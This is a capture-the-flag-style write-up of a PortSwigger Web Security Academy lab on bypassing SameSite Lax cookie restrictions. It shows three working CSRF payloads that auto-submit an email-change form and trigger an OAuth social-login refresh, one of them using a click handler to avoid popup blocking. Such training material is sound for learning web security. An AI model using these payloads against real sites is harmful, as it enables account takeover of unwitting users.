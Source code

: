 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c04d96d3-feed-423f-bd25-006f67f35f0c)

### Solution

Log in using the given username and password, the page will take us to a social media page for loggin in.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/2482e5a6-79f4-4536-8b49-805767b1b066)

Submit a update email request with some random email id.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b798d872-0088-4cb5-be04-872a8a091a71)

The email update POST request doesn't have any unpredictable tokens.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0714bcb4-3d59-4fc2-85c5-e5274347b2db)

Use the following script in the body section of the exploit server for a basic CSRF attack

```js
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d2739012-491e-4b77-9531-f23e07187221)

The email is changed to the one we gave

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6c8a6927-d509-445c-872a-e0e9776a6598)

The `GET /oauth-callback?code=[...]` request at the end of the OAuth flow doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/07fb27fa-9b38-4c4d-87e8-99fc90b24979)

`/social-login` is the one that automatically initiates the full OAuth flow.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b197feba-9e1c-46d0-8509-e472e410194c)

Use the following script in the body of the exploit server for causing an email change request.

```js
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```
![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/992b2f5a-b54b-4bf0-8e68-bde229e20858)

The initial request is blocked as a popup.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/2b8b7b1a-3eb7-4814-bf09-d42c1199e103)

but csrf attack still worked

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f92f4eb1-9703-4cef-89de-066e35217297)

The pop-up was blocked because there is no interaction with the page. Use the following script in the body of the exploit server which will enable an interaction with the webpage.

```js
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pranked@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
Delivering the it to the victim will finish the lab and cause the CSRF attack

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a277c3b7-a3cc-43c5-ab96-1894893ad306)

When inspecting the POST /my-account/change-email we can see a new session cookie has been created.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/64cddb8a-b867-4c56-a139-7056e54a15c7)

Deliver the exploit to the victim to solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/cd501669-65dd-45e9-b7f3-7979151fc323)

lab solved succesully

